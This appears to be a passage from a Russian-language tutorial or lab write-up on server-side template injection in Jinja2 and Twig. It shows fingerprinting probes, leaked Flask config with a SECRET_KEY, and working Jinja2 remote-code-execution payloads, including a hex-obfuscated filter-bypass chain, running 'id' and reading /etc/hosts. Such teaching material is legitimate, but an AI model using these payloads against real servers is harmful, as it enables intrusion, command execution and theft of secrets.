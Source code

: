 Да, до того, что это SSTI, а шаблонизатор Jinja2 или Twig, еще надо дойти, но с опытом вы начнете автоматом пихать по своему (или чужому) словарю инъекций все, что вы знаете и не знаете, про SSTI вам чуть чуть рассказали, поэтому тут сразу приступим к самим инъекциям

Понимание того, что это [Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) или [Twig](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md):
```
{{ 7*9 }}
{{ 7*'k' }}
{{dump(app)}} # проверяем, что это может быть Twig
{{ config.items() }} # проверяем, что это может быть Jinja2 - радуемся
```

Ответ на `{{config.items()}}`:
```python
dict_items([('DEBUG', True), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', 'hohohaha'), ('SECRET_KEY_FALLBACKS', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('TRUSTED_HOSTS', None), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_PARTITIONED', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('MAX_FORM_MEMORY_SIZE', 500000), ('MAX_FORM_PARTS', 1000), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('PROVIDE_AUTOMATIC_OPTIONS', True)])
```

Сразу идем искать как сделать RCE:
```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Очень советую выяснить, как это вообще работает, поможет в будущем делать очень красивые инъекции, например, такое:
```python
{{lipsum|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Ответ:
```
uid=1000(www) gid=1000(www) groups=1000(www)
```

Читаем `/etc/hosts`:
```python
{{ cycler.__init__.__globals__.os.popen('cat /etc/hosts').read() }}
```

Ответ:
```
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.21.0.2	ec92e9e3575e
```
